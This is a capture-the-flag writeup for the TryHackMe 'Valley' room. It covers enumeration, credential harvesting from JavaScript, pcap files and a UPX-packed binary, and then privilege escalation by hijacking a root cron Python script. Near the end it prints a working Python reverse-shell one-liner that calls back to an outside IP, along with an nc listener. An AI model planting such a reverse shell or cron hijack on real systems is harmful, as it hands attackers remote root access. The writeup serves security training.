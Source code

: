 # TryHackMe Writeup — [Valley](https://tryhackme.com/room/valleype)
## Description
In this room, we performed a full compromise of the target machine by leveraging exposed development files, credential reuse, FTP misconfigurations, and privilege escalation via an insecure scheduled Python script. The engagement involved directory enumeration, analysis of pcap network captures, binary analysis, and a reverse shell to escalate to root.

## Scanning & Enumeration
We start with an Nmap scan to discover open ports and services:
```python
nmap -sC -sV -p- -A 10.10.187.116
```
Open ports:
```python
22/tcp   open  ssh
80/tcp   open  http
37370/tcp open ftp
```
## Exploring HTTP (Port 80)
Browsing the website didn’t reveal much at first. We launched directory brute forcing:
```python
gobuster dir -u http://10.10.187.116 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```
We discovered the directory ```/static```, and after further enumeration:
```python
gobuster dir -u http://10.10.187.116/static -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```
Interesting discovery: ```/static/00```

Inside, we found dev notes:
```python
dev notes from valleyDev:
- add wedding photo examples
- redo the editing on #4
- remove /dev1243224123123
- check for SIEM alerts
```
Navigating to ```/dev1243224123123``` revealed a login form.

Finding Credentials

Checking the page source (```Ctrl + U```), we found a file called ```dev.js```.

Reviewing its content, we found hardcoded credentials in the script:
```python
if (username === "*****" && password === "*******") {
    window.location.href = "/dev1243224123123/***********";
}
```
Logging in provided more dev notes, including:
```python
dev notes for ftp server:
- stop reusing credentials
- check for any vulnerabilities
- stay up to date on patching
- change ftp port to normal port
```
## Accessing FTP
We attempted login using the credentials found in ```dev.js```:
```python
ftp <username>@10.10.187.116 -p 37370
```
Files found on FTP:

* ```siemFTP.pcapng```

* ```siemHTTP1.pcapng```

* ```siemHTTP2.pcapng```

Analyzing PCAP Files

Using Wireshark, we analyzed the pcap files:

* ```siemFTP.pcapng```: revealed old FTP anonymous login — no longer valid.

* ```siemHTTP1.pcapng```: nothing useful.

* ```siemHTTP2.pcapng```: Found HTTP POST with login credentials for SSH:

```python
Form item: "uname" = "valleyDev"
Form item: "psw" = "*******"
```

## Gaining User Access
Using the SSH credentials:

```python
ssh valleyDev@10.10.187.116
```
Obtained ```user.txt```

## Privilege Escalation
Checking for cron jobs:
```python
cat /etc/crontab
```
Found:
```python
root python3 /photos/script/photosEncrypt.py
```
The script is executed with root privileges, but we cannot modify it as the current user. However, in ```/home```, we discovered a file named ```valleyAuthenticator```.

We downloaded it to our machine:
```python
python3 -m http.server
wget http://10.10.187.116:8000/valleyAuthenticator
```
## Analyzing the Binary
We ran:
```python
strings valleyAuthenticator
```
We noticed the binary was packed with UPX. To unpack:
```python
upx -d valleyAuthenticator
```
Running ```strings``` again revealed credentials for user ```valley```.

We switched users:
```python
su valley
```
Now we could edit the vulnerable script:
```python
nano /photos/script/photosEncrypt.py
```
Inserted a Python reverse shell:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
Start listener on our machine:
```python
nc -lvnp 4444
```
After waiting for the cron job — root shell obtained.

## Conclusion

This room demonstrated the dangers of exposed development files, credential reuse, and insecure cron jobs. By combining enumeration, pcap analysis, and privilege escalation, we achieved full system compromise and root access.



